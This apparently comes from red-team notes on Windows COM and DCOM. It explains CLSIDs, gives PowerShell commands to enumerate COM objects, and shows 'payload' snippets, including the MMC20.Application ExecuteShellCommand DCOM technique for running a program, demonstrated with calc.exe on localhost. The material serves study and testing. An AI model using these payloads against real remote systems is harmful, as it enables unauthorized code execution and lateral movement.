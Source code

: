 ## Component Object Model (COM)

 is a platform-independent, distributed, object-oriented system for creating binary software components that can interact. COM is the foundation technology for Microsoft's OLE (compound documents), ActiveX (Internet-enabled components), as well as others.

## Distributed Component Object Model (DCOM)

 DCOM is a programming construct that allows a computer to run programs over the network on a different computer as if the program was running locally

* `CLSID – The Class Identifier (CLSID)` is a Global Unique Identifier (GUID). Windows stores a CLSID for each installed class in a program. When you need to run a class, you need the correct CLSID, so Windows knows where to go and find the program.
  * `oleview.exe` 

searching some COM Objects available and that can allows us to Execute code on the local machine.

```
Get-CimInstance -ClassName Win32_ComApplication
```

```
Get-CimInstance -ClassName Win32_ComApplication -property * | select-string shellwindows
```

### payload - COM

#### VB

```vbscript
Dim objXL
Set objXL = CreateObject("Excel.Application")
```

#### javascript

```javascript
var objXL = new ActiveXObject("Excel.Application");
```

### payload - DCOM

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","127.0.0.1")
$com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\Calc.exe",$null,$null,"7")
```